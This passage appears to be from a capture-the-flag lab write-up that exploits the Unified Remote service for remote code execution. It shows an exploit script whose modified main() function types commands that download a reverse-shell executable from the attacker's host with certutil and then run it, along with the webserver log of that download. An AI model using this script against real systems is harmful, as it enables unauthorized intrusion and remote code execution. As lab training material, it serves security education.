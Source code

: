 Even though I noted that Unified Remote was running out of `Program File (x86)` (and thus a 32-bit process), I can still use a 64-bit payload as the system is 64-bit and the exploit just calls the payload, rather than loading it in the context of the exploited application.

#### Exploit - Fail

I’ll run the script:

```

oxdf@hacky$ python3 unified_remote_rce.py 127.0.0.1 10.10.14.6 rev.exe
[+] Connecting to target...
[+] Popping Start Menu
[+] Opening CMD
[+] *Super Fast Hacker Typing*
[+] Downloading Payload
[+] Done! Check listener?

```

When it gets to “Downloading Payload”, there’s a request at my listening Python webserver:

```

oxdf@hacky$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.115 - - [28/Jan/2022 16:53:31] "GET /rev.exe HTTP/1.1" 200 -

```

But I don’t get a callback at `nc`.

#### Exploit Success

`C:\Windows\Temp` can be locked down in a modern Windows system, so it’s possible that I can’t write a payload there. I’ll update the script to write to `C:\programdata` instead:

```

# Main Execution
def main():
    staging_dir = "C:\\programdata\\"
    target.connect((rhost,port))
    sleep(0.5)
    print("[+] Connecting to target...")
    target.sendto(open,(rhost,port))     # Initialize Connection to Unified
    sleep(0.02)
    target.sendto(open_fin,(rhost,port))     # Finish Initializing Connection
    print("[+] Popping Start Menu")
    sleep(0.02)
    SendWin()
    sleep(0.3)
    print("[+] Opening CMD")
    SendString("cmd.exe", rhost)
    sleep(0.3)
    SendReturn()
    sleep(0.3)
    print("[+] *Super Fast Hacker Typing*")
    SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " " + staging_dir + payload, rhost) # Retrieve HTTP hosted payload
    sleep(0.3)
    print("[+] Downloading Payload")
    SendReturn()
    sleep(3)
    SendString(staging_dir + payload, rhost) # Execute Payload
    sleep(0.3)
    SendReturn()
    print("[+] Done! Check listener?")
```